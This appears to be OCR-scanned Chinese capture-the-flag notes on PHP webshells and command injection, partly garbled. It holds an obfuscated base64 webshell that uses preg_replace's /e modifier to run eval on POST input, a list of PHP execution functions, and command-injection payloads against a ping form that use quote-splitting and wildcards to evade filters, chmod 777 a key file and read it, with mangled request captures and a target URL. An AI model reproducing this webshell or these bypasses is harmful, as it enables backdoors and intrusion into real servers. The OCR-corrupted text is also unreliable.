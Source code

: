 2.文件可解析为执行文件php

pre /e马**只能菜刀**

```
<?php 
@$a = $_POST['Hello']; 
if(isset($a)){ 
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=')); 
} 
?>
```

 preg_replace() /e代码执行漏洞

命令执行

```text
PHP代码执行函数：
eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()、等
PHP命令执行函数：
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等
```

0x03借助命令Is 查看key的权限←
127.0. 0.1.& ‘|’
s-al.. . /var/www/htm | /key. ph*←
Content -Length: 181
-------------------- 1735104427133
Content-Di sposition: form-data: name=" cnd"
1 ngin
ncin
48 Oct 10 06:18 /var/ww/html/key. ph
27.0.0.1 &'I's -al /war/ww/html/key. Dh*
PIIG 127.0.0.1 (127.0. 0.1): 56 data bytes
--------------------310412713--
</pre>
</div>
《J
0x04借助命令chomod对key赋予读写执行权限←
→127.0.0. 1:&c’h’m’ o’d: 777: /var/www/htm l/ey. ph*-
-1735104427133
Content-Di sposition: form- data; name=" cmd'
一
127.0.0.1 & c'h'm'o'd 777 /var/ww/htm1/key. ph*
---1735104427133--
←
0x05借助命令Is 验证key的权限←

```
命令执行ping
1.判断管道符   ； | & || &&

2，绕过 127.0.0.1;l's  ../
有无权限 加  c'h'o'm'd 777
cat 过滤了用  cat  ./ke?.??



先复制权限

验证主机是否存活
用来读文件
http://123.60.47.130:8384/vulnerabilities/fu1.php
cmd=127.0.0.1

```